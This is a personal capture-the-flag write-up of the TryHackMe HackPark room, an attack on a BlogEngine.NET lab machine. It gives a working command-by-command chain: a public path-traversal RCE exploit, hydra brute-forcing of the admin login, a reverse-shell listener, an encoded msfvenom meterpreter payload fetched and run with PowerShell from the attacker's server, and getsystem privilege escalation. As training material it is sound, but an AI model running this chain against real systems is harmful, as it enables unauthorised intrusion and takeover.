

# HackPark [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

**NOTE:** <sub>_I purposefully skipped the walkthrough to try to exploit this machine myself. It had other ideas, used other exploits, used other metasploit methodology, everything is different in the walkthrough, so a lot of questions from the walkthrough aren't answered here, instead I simply focused on the flags._</sub>

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.244.249
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

This gave us two ports `80` and `3389` running on this machine. Let's browse the website:

```
firefox $targ3t
```

It seems to be a blog powered by something called [**BlogEngine.NET**](https://blogengine.io). It has one post, one comment, a contact page, a login interface and not much else. 

I'm going to put this through a `gobuster` and `feroxbuster` in that order.

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

There are groups of routes that route to the same thing, there appears to be a search engine on the site, which I either haven't noticed while browsing or it is indeed not linked anywhere. I am going to terminate `gobuster` scan, because it takes a long time and finds a lot of the same stuff.

`feroxbuster` seems to find a lot of things related to the engine this blog is built with like scripts, themes and such.

I am going to try to find a public exploit for this engine:

```
searchsploit blogengine
```

Quite a bit of results. The website's source code indicates this is a `BlogEngine 3.3.6.0` for which we have a number of exploits ranging from XML Injection to Path Traversal. I'll try one of those:

```
cp /usr/share/exploitdb/exploits/aspx/webapps/47011.py exp.py
head -20 exp.py
```

This is the description:

```
#BlogEngine.NET is vulnerable to an Directory Traversal on `/api/upload` which allows a RCE through the `theme` parameter.
```

Let's check if there is such a path there at all:

```
firefox $targ3t/api/upload
```

There seems to be something! Based on the exploit's description we need to start a reverse shell somewhere and then launch the exploit, so:

```
nc -lvnp 9876
```

And then let's run the exploit:

```
python2 exp.py -t $targ3t
```

Looks like it relies on a proxy connection `127.0.0.1:8080` which is a **Burp Suite** proxy. I'll start Burp Suite and run the exploit again, so that we can see in the Burp Suite's Proxy tab, what the exploit is trying to do.



Essentially, it is trying to use `admin:admin` credentials to log into the admin panel and then do a path traversal on `/api` path, which doesn't work, because those credentials are incorrect, hence Status Code `302`. 

Time to use hydra:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/Account/login.aspx:__VIEWSTATE=*...*__EVENTVALIDATION=*...*&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
```

There are hashes omitted in the first two parameters of this POST request, and we cracked the password. Apparently it's `1qaz2wsx`.

Let's try and log in:

```
firefox $targ3t/Account/login.aspx
```

Let's run the exploit again, this time indicating username and password:


```
python exp.py -t $targ3t -l <MY IP>:9876 -u admin -p 1qaz2wsx
```

And we have a reverse shell! Let's convert it to meterpreter. First, generate payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

Then, start a python server:

```
python -m http.server 8000
```

Then in our last shell, download the payload:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Doesn't quite work, let's navigate somewhere, where we can download files:

```
cd C:\Users\Public\Downloads
```

And this time it worked. Now let's start a handler in metasploit:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
run
```

And back in our shell:

```
powershell "Start-Process 'shell-name.exe'"
```

And we got a meterpreter shell. Let's try to escalate some privileges through meterpreter:

```
load priv
getsystem
```

Seems like it worked, let's see if we can enter the Desktop of the user `jeff`:

```
cd c:/users/jeff/Desktop
```

And it's there:

```
cat user.txt
```

That's our first flag. On to the next one:

```
cd c:/Users/Administrator/Desktop
cat root.txt
```

We got both flags!
